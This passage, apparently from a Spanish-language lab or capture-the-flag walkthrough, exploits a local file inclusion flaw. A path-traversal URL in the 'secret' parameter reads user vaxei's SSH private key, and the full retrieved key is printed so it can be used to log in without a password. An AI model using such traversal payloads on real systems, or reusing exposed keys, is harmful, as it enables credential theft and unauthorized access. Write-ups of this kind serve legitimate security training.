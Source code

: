 ### ssh
Con la vulnerabilidad LFI, podemos intentar leer archivos sensibles del sistema. Conociendo el nombre del usuario (vaxei) y acceso a un navegador con una vulnerabilidad de LFI (Local File Inclusion), puedes intentar acceder a la ruta /home/vaxei/.ssh/id_rsa a través de la URL vulnerable. Si el archivo es accesible, podremos descargar la clave privada RSA, guardarla localmente y usarla para autenticarse por SSH como vaxei, sin necesidad de contraseña.

Buscamos:
```bash
http://<IP_DEL_OBJETIVO>/index.php?secret=../../../home/vaxei/.ssh/id_rsa
```

**Salida**
```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvbN4ZOaACG0wA5LY+2RlPpTmBl0vBVufshHnzIzQIiBSgZUED5Dk
2LxNBdzStQBAx6ZMsD+jUCU02DUfOW0A7BQUrP/PqrZ+LaGgeBNcVZwyfaJlvHJy2MLVZ3
tmrnPURYCEcQ+4aGoGye4ozgao+FdJElH31t10VYaPX+bZX+bSxYrn6vQp2Djbl/moXtWF
ACgDeJGuYJIdYBGhh63+E+hcPmZgMvXDxH8o6vgCFirXInxs3O03H2kB1LwWVY9ZFdlEh8
t3QrmU6SZh/p3c2L1no+4eyvC2VCtuF23269ceSVCqkKzP9svKe7VCqH9fYRWr7sssuQqa
OZr8OVzpk7KE0A4ck4kAQLimmUzpOltDnP8Ay8lHAnRMzuXJJCtlaF5R58A2ngETkBjDMM
2fftTd/dPkOAIFe2p+lqrQlw9tFlPk7dPbmhVsM1CN+DkY5D5XDeUnzICxKHCsc+/f/cmA
UafMqBMHtB1lucsW/Tw2757qp49+XEmic3qBWes1AAAFiGAU0eRgFNHkAAAAB3NzaC1yc2
EAAAGBAL2zeGTmgAhtMAOS2PtkZT6U5gZdLwVbn7IR58yM0CIgUoGVBA+Q5Ni8TQXc0rUA
QMemTLA/o1AlNNg1HzltAOwUFKz/z6q2fi2hoHgTXFWcMn2iZbxyctjC1Wd7Zq5z1EWAhH
EPuGhqBsnuKM4GqPhXSRJR99bddFWGj1/m2V/m0sWK5+r0Kdg425f5qF7VhQAoA3iRrmCS
HWARoYet/hPoXD5mYDL1w8R/KOr4AhYq1yJ8bNztNx9pAdS8FlWPWRXZRIfLd0K5lOkmYf
6d3Ni9Z6PuHsrwtlQrbhdt9uvXHklQqpCsz/bLynu1Qqh/X2EVq+7LLLkKmjma/Dlc6ZOy
hNAOHJOJAEC4pplM6TpbQ5z/AMvJRwJ0TM7lySQrZWheUefANp4BE5AYwzDNn37U3f3T5D
gCBXtqfpaq0JcPbRZT5O3T25oVbDNQjfg5GOQ+Vw3lJ8yAsShwrHPv3/3JgFGnzKgTB7Qd
ZbnLFv08Nu+e6qePflxJonN6gVnrNQAAAAMBAAEAAAGADK57QsTf/priBf3NUJz+YbJ4NX
5e6YJIXjyb3OJK+wUNzvOEdnqZZIh4s7F2n+VY70qFlOtkLQmXtfPIgcEbjyyr0dbgw0j4
4sRhIwspoIrVG0NTKXJojWdqTG/aRkOgXKxsmNb+snLoFPFoEUHZDjpePFcgyjXlaYmZ0G
+bzNv0RNgg4eWZszE13jvb5B8XtDzN4pkGlGvK1+8bInlguLmktQKItXoVhhokGkp4b+fu
7YjDiaS4CyWsxX50wG/ZMgYBwFLRbCDUUdKZxsmCbreHxLKT/sae64E2ahuBSckYZlIzTd
2lp27EOOPvdPlt9gny83JuFHBLChMd4sHq/oU8vGAiGnIvOCWs4wMArbpJQ+EALJk3GYvh
oqWp3Q4N4F1tmwlrbqX2KP2T5yB+rLoBxfJwLELZlzd+O8mfP9Yknaw2vVYpUixUglNWHJ
ZnmN1uAScPAd1ZNvIkPm6IPcThj1hVCkFXgWjQn6NdJj+NGNWcBeUrxBkH0vToD7gfAAAA
wQCvSzmVYSxpX3b9SgH+sHH5YmOXR9GSc8hErWMDT9glzcaeEVB3O2iH/T+JrtUlm4PXiP
kwFc5ZHHZTw2dd0X4VpE02JsfkgwTEyqWRMcZHTK19Pry2zskVmu6F94sOcN8154LeQBNx
gT22Dr/KJA71HkOH7TyeGnlsmBtZoa3sqp3co9inkccnhm1KUeduL4RcSysDqXYbBUtNB6
G1l8HYysm8ISCsoR4KSgxmC5lqCMfBy7z/6nOX7sm5/kP+JMsAAADBAO8TiHrYTl/kGsPM
ITaekvQUJWCp+FCHK07jwzNp4buYAnO3iGvhVQpcS7UboD8/mve207e97ugK4Nqc68SzSu
bDgAnd4FF3NLoXP/qPZPaPS1FRl0pY0jHyB+U6RELgaI34i9AierMc+4M0coUMZvxqay3o
t8jRhz08jiwFifszwNN7taclmNEfkrKBY7nlbxFRd2XLjknZHFUOFzOFWdtXilQa+y6qJ6
lKtE9KWnQgIgZB9Wt+M3lsEVWEdQKN1wAAAMEAyyEsmbLUzkBLMlu6P4+6sUq8f68eP3Ad
bJltoqUjEYwe9KOf07G15W2nwbE/9WeaI1DcSDpZbuOwFBBYlmijeHVAQtJWJgZcpsOyy2
1+JS40QbCBg+3ZcD5NX75S43WvnF+t2tN0S6aWCEqCUPyb4SSQXKi4QBKOMN8eC5XWf/aQ
aNrKPo4BygXUcJCAHRZ77etVNQY9VqdwvI5s0nrTexbHM9Rz6O8T+7qWgsg2DEcTv+dBUo
1w8tlJUw1y+rXTAAAAEnZheGVpQDIzMWRlMDI2NmZmZA==
-----END OPENSSH PRIVATE KEY-----
```
